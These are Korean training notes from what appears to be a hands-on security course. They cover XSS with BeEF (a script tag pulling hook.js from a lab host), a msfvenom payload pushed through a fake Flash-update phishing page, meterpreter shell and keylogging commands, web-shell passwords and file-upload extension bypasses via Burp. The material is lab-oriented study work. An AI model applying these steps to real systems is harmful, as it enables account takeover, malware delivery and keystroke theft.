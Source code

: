 xss 취약점

1. 다른 사용자의 쿠키 정보 획득 -> 관리자 권한
2.  악성코드 배포(js파일로 접속) -> exe 파일 이후에 설치
3. 피싱사이트 유도

beef 실행

![image-20200907091313869](secure_day6.assets/image-20200907091313869.png)

![image-20200907092044229](secure_day6.assets/image-20200907092044229.png)

아래 주소 파폭으로 접속, 아이디 비번은 beef

![image-20200907091906081](secure_day6.assets/image-20200907091906081.png)

로컬에서 윗주소 http://192.168.20.128:3000/hook.js 접속

![image-20200907092453389](secure_day6.assets/image-20200907092453389.png)

<script src=http://192.168.20.128:3000/hook.js></script>

다음과 같이 http://test.nanum.info:82/board_edit.asp에 글 작성

![image-20200907093016115](secure_day6.assets/image-20200907093016115.png)

작성글에 접속하고 kali 확인하면

![image-20200907094209242](secure_day6.assets/image-20200907094209242.png)

다음과 같이 test라고 공격하면

![image-20200907095016733](secure_day6.assets/image-20200907095016733.png)

공격당함 ㄷㄷ, 하지만 이 공격은 실무에서 사용하기에는 어렵다. 공격하는동안 페이지에 머물러야하기 때문이다.

![image-20200907095032040](secure_day6.assets/image-20200907095032040.png)

페이지 바꿔서 악성코드 있는 페이지로 유도 가능

![image-20200907101619853](secure_day6.assets/image-20200907101619853.png)

페이지 이동시킴

![image-20200907101631232](secure_day6.assets/image-20200907101631232.png)

구글 피싱

![image-20200907102332239](secure_day6.assets/image-20200907102332239.png)

ddd

![image-20200907102352465](secure_day6.assets/image-20200907102352465.png)

피싱성공

![image-20200907102452742](secure_day6.assets/image-20200907102452742.png)



페이크 플래시, 아무튼 뭐 이런게 있음 공격하면 파일 다운받게 함

![image-20200907102644825](secure_day6.assets/image-20200907102644825.png)

---

새탭에서 작업

![image-20200907103107324](secure_day6.assets/image-20200907103107324.png)

![image-20200907103214196](secure_day6.assets/image-20200907103214196.png)

둘이 떨어질 수 없음

![image-20200907103500916](secure_day6.assets/image-20200907103500916.png)

kali, payload - 연결점, 공격코드 등으로 불림

![image-20200907104110992](secure_day6.assets/image-20200907104110992.png)

<br/>

### msavenom

msfpayload + msfencoder 인놈

새탭에서 작업

![image-20200907105122204](secure_day6.assets/image-20200907105122204.png)

생성된

![image-20200907105226463](secure_day6.assets/image-20200907105226463.png)

시나리오

1. msfvenom을 이용해서 7777포트로 악성코드 생성
2. 7777포트를 기다리는 핸들러 생성 및 대기상태
3. 생성한 security.exe 파일을 외부에 공개(웹서비스 이용)
4. beef 배포 url에 3번의 공개 url로 수정
5. 플래쉬 업데이트 피싱 사이트 실행

현재 대기중인 상태

![image-20200907105544765](secure_day6.assets/image-20200907105544765.png)

securyty.exe 존재하는 디렉토리에서 서버실행

![image-20200907105835158](secure_day6.assets/image-20200907105835158.png)

![image-20200907110040182](secure_day6.assets/image-20200907110040182.png)

다시 플래시 공격 하면 exe 악성코드 배포되게함, 근데 windows defender가 막네

![image-20200907112325899](secure_day6.assets/image-20200907112325899.png)

해제하고 실행하면 다음과 같이 뜨고, PC를 장악한것이다.

![image-20200907114401999](secure_day6.assets/image-20200907114401999.png)

shell 입력하면 cmd 접속 됨

![image-20200907114815126](secure_day6.assets/image-20200907114815126.png)

keyscan start

![image-20200907132226589](secure_day6.assets/image-20200907132226589.png)

이제 입력값을 가져올 수 있다, tghy / tghyhju 입력함

![image-20200907132250409](secure_day6.assets/image-20200907132250409.png)

keyscan_dump를 통해 그동안 입력한 값들을 가져올 수 있다.

![image-20200907132341838](secure_day6.assets/image-20200907132341838.png)

---

## 파일업로드 취약점

1. 
2. 업로드한 웹쉘의 위치 절대경로를 알아야함
3. 업로드 된 웹쉘 스크립트 실행

우회

1. 자바스크립트 우회

   -> 응답값에 제한 스크립트를 삭제

   -> 허용되는 확장자(jpg)로 올리는 과정에서 확장자를 바꿔서 업로드

   

-> 이후 공격(위에서 한대로)

0. 스크립트 삽입
1. msfvenom을 이용해서 7777포트로 악성코드 생성
2. 7777포트를 기다리는 핸들러 생성 및 대기상태
3. 생성한 security.exe 파일을 외부에 공개(웹서비스 이용)
4. beef 배포 url에 3번의 공개 url로 수정
5. 플래쉬 업데이트 피싱 사이트 실행



들어가서 비밀번호는 b374k

![image-20200907145644605](secure_day6.assets/image-20200907145644605.png)

비밀번호는 bug

![image-20200907145512392](secure_day6.assets/image-20200907145512392.png)

![image-20200907145615189](secure_day6.assets/image-20200907145615189.png)

---

## asp 파일 올리기

간단하다 버프스윗 이용하여 이것만 없애주면 된다.

![image-20200907154624461](secure_day6.assets/image-20200907154624461.png)

<br/>

그럼 js 건들지 않고 어떻게 할까? 확장자를 변경하고 올린 후

![image-20200907155002484](secure_day6.assets/image-20200907155002484.png)

이 부분을 asp로 바꿔준다. 중간에 바꿔버리는 것이다.

![image-20200907155048882](secure_day6.assets/image-20200907155048882.png)

php 파일이 서버사이드에서 막히면, 어떻게 할까? 나중에 물어보자

